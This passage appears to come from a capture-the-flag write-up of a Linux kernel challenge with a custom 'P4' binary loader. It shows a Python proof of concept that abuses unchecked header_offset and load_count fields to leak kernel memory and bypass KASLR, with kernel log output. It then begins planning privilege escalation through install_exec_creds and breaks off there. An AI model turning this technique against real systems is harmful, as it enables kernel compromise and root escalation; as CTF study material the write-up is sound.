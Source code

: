 ```c
    }
  }
  else{

.....
```
The problem is that it does not has bounds checking for `header_offset` and `load_count`, we can use `header_offset` to control the pointer:
`loads = (load *)&buf->magic[ (p4fmt *)(bprm->buf).header_offset ];`,
and over reading memory by setting up `load_count`,  therefore we can leak the content in `struct linux_binprm`.

PoC:
```python
binary = 'P4'                # MAGIC
binary += p8(0)              # version
binary += p8(1)              # arg
binary += p32( 5 )           # load_count
binary += p64( 0x80 - 0x18 ) # header_offset
```
Result:
```sh
/tmp $ ./leak
[    7.607129] vm_mmap(load_addr=0x0, length=0x0, offset=0x0, prot=0)
[    7.607460] vm_mmap(load_addr=0x7fffffffe000, length=0x100000001, offset=0x0, prot=3)
[    7.607952] vm_mmap(load_addr=0xffff9f160213d000, length=0x0, offset=0x7fffffffeff1, prot=0)
[    7.608132] vm_mmap(load_addr=0x0, length=0xffff9f16020c8b40, offset=0x800000, prot=0)
[    7.608315] vm_mmap(load_addr=0xfffffffffffff000, length=0x1, offset=0x0, prot=7)
[    7.608561] clear_user(addr=0xffffffffffffffff, length=0x1)
[    7.610219] leak[526]: segfault at 0 ip 0000000000000000 sp 00007fffffffef93 error 14
[    7.610786] Code: Bad RIP value.
Segmentation fault
/tmp $
```
### Privilege escalation
For now, we can use kernel information leak to bypass kaslr, but how to achieve privilege escalation.
We can simplify the process of `load_p4_binary`:
1. Check for file format.
2. `flush_old_exec(bprm, P4MAG)`
3. `setup_new_exec(bprm)`
4. Process memory loading.
5. `install_exec_creds(bprm)`
6. `set_binfmt(&p4format)`
7. `setup_arg_pages(bprm, randomize_stack_top(STACK_TOP), 0LL)`
8. `finalize_exec(bprm)`
9. `start_thread(regs, p4_entry, bprm->p)`

`install_exec_creds(bprm)` is interesting, it will do `commit_creds(bprm->cred);` inside.
```c
void install_exec_creds(struct linux_binprm *bprm)
{
	security_bprm_committing_creds(bprm);

	commit_creds(bprm->cred);
	bprm->cred = NULL;

	if (get_dumpable(current->mm) != SUID_DUMP_USER)
		perf_event_exit_task(current);

	security_bprm_committed_creds(bprm);
	mutex_unlock(&current->signal->cred_guard_mutex);
}
```